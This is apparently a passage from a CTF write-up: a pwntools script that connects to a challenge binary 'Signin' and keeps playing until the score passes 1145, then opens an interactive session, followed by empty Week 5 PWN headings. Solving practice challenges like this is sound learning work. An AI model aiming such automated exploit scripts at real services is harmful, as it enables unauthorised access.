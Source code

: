```python
from pwn import *
import pwnlib.gdb

context.log_level = 'debug'
local = True
if local:
    p = process('./Signin')
    # pwnlib.gdb.attach(p, 'b main')
else:
    p = remote('ctf.yuawn.id', 8009)
p.recvuntil('name: ')
p.sendline(b'lh')
p.sendline(b'6')
p.sendline()
# Berserker
score = 0
while score <= 1145:
    log.success('score: %d' % score)
    is_win = False
    p.sendline(b'1')
    p.sendlineafter(b'class:', 'Berserker')
    p.recvline()
    re = p.recv()
    if b'You beated' in re:
        score += 5
        is_win = True
    p.sendline()
    p.sendline()
    if score > 1145:
        p.interactive()
        break
    if is_win:
        p.sendline(b'6')
        p.sendline()
    else:
        p.sendline(b'5')
        p.sendline()
```
# Week 5
## PWN
### C_or_CPP(复现)
### EldenRing(复现)
### No Output(复现)
### Simple_Shellcode(复现)